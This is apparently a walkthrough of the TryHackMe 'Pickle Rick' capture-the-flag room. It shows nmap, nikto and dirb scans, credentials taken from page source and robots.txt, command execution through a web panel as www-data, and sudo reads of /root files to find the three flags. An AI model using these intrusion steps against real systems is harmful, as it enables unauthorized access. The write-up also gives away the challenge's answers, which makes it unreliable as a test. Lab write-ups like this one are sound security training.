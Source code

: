 # Pickle Rick @TryHackMe.com

Difficulty: EASY

Keywords and tools: nmap, nikto, dirb, directory traversal


### ping the target (target IP will be given after you've joined the room)

```
ping 10.10.102.120

PING 10.10.102.120 (10.10.102.120) 56(84) bytes of data.
64 bytes from 10.10.102.120: icmp_seq=1 ttl=63 time=49.4 ms
64 bytes from 10.10.102.120: icmp_seq=2 ttl=63 time=50.7 ms
```

### nmap scan

````
sudo nmap -sV -n -v -Pn -p- -T4 -A 10.10.102.120

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:68:bd:7f:44:89:05:be:36:ef:62:91:91:3c:8b:f3 (RSA)
|   256 f3:57:4b:4d:59:dd:42:6e:01:d9:b6:7e:8b:d5:72:8b (ECDSA)
|_  256 3a:9e:61:c3:73:1a:f0:4c:de:a3:39:79:d5:b5:f3:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
````

### Connect to web app with Firefox (http:\\10.10.102.120) and inspect the page source 

You should find
````
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
````

### Check /robots.txt

Found a password?
```
Wubbalubbadubdub
```

### Let's try ssh.

````
ssh R1ckRul3s@10.10.102.120

R1ckRul3s@10.10.102.120: Permission denied (publickey).
````

No success. Will need ssh key.
  
  

### Scan the target for possibly hidden content with dirb

````
dirb http://10.10.102.120/

````
Won't find anything special...

### Lets try nikto

````
nikto -h 10.10.102.120
````

nikto found an /login.php page, lets see it and try to login

````
Open Firefox and go to <target>/login.php
username: R1ckRul3s
password: Wubbalubbadubdub
````

We get a command panel with a command execution box, lets try typing 'whoami'

````
www-data
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

cat Sup3rS3cretPickl3Ingred.txt
Command disabled
````

Open the page with Firefox: http://10.10.102.120/Sup3rS3cretPickl3Ingred.txt and we have our first flag
``mr. meeseek hair``

Open the http://10.10.102.120/clue.txt ``Look around the file system for the other ingredient.``

### Lets try directory traversal
````
cd ../../../../; ls
cd /home; ls
cd /home/rick; ls
````
We see 'second ingredients', and since cat-command is disabled, lets try 'less'

````
less /home/rick/"second ingredients"
jerry tear
````
And we got our second flag.

Lets see if we have sudo

````
sudo ls /root;
sudo less /root/3rd.txt

3rd ingredients: fleeb juice
````

There's the final flag.
